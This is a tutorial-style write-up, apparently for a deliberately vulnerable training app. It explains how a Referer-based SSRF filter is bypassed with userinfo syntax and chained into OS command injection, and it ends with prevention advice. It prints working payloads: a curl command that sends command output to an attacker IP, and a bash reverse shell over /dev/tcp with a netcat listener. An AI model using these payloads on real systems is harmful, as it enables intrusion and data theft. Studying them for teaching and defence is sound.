





# SSRF and OS Command Injection

SSRF is a web application vulnerability which allows an attacker to trick the backend of the web application to make requests to an unintended server. This server can be in the internal network of the backend server or in the external network controlled by the attacker.


A successful SSRF attack may result in unauthorized business operations or access to data, either on the vulnerable application itself or on other back-end systems with which the application can communicate. In certain situations, the SSRF vulnerability might grant an attacker the ability to carry out any command. An SSRF exploit that connects to external third-party systems may result in malicious forward assaults that appear to emanate from the firm hosting the vulnerable application.
This project implements a server-side analytics middleware which extracts the value of the “Referer” header of the HTTP request for logging purposes since it contains information about where the user came from, to this web application. The middleware also visits the URL in the “Referer” header to extract the content of the HTML anchor tag, which leads the user to this web application. This extracted information is then logged on the server using an OS command:
“`echo “${time} -- ${title} -- ${anchorTagText}” >> /mvwa/tmp/trpc.log`”
Also the developer has intended to implement a simple security measure to protect the server from malicious websites by filtering the sites that come from the “Referer” header so that only the allowed sites are visited and logged. The developer checks whether the website contained within the “Referer” header starts with “<http://allowed.com>” or not. If it does, only then the server fetches the HTML page of the website and logs the anchor tag text. An attacker can get around this problem easily by using HTTP authentication syntax. For example, “<http://xyz@my-website.com>” where “xyz” is treated as a username to the website “my-website.com”. If the attacker changes the “Referer” header to “<http://allowed.com@malicious-website.com>”, the filter will be bypassed and the request will still be sent to “malicious-website.com”.
Now, to exploit this vulnerability, an attacker can create his own website containing an anchor tag with vulnerable web application’s URI in the “href” attribute and malicious payload in the text content.



The attacker can then intercept a request to the vulnerable web application using an intercepting proxy like Burp Suite and change the “Referer” header to contain the link to the attacker's website.  



The attacker can set the anchor tag text such that it modifies the original OS command that the server executes to append data to the logs, and allows him to execute arbitrary commands on the server. To receive the output of the executed command, the attacker can set up his own web server and send a request containing the output from the vulnerable web application server which he has exploited. For example, to receive the output of the linux command “uname -a”, the attacker can set the anchor tag text on his website to the following:`text”; curl http://192.168.101.232:3012/?output=`uname -a | base64 -w 0`; #`
When this anchor tag text will be filled in the original OS command, the result will look like:

```bash
echo “14-11-2022 5:52 AM IST -- Document -- text”; curl http://192.168.101.232:3012/?output=`uname -a | base64 -w 0`; # ” >> /mvwa/tmp/trpc.log
```

This above result consists of two OS commands, one echo command that echoes the above text to STDOUT and one curl command that sends a request to the attacker's server with the base64 encoded output of the “uname -a” command in the query parameter.





The above procedure to execute a command and receive its output is quite complicated, so an attacker might want to gain persistent shell access to the vulnerable web server. He can do so by executing a “Reverse Shell” bash payload using the above method. He can set the anchor tag text to the following to gain shell access:
`text”; bash -i >& /dev/tcp/192.168.101.232/3013 0>&1 #`
When the vulnerable web server executes this command, it sends connection requests to the attacker listening at port 3013 using netcat as follows: “nc -lnvp 3013”.



To prevent this vulnerability, the developer should not allow the server to send requests to untrusted websites and perform actions based on their content. If this functionality is required and there is no other way to implement it in the application logic, a proper whitelisting of trusted websites should be implemented. Moreover, OS commands shouldn’t be executed by the application to perform any actions, instead several API endpoints can be created to do the same tasks in a safer way. In case there’s no other way than to execute OS commands, untrusted input should be made sure to not be a part of the command or it should be filtered thoroughly before appending it to the OS command.
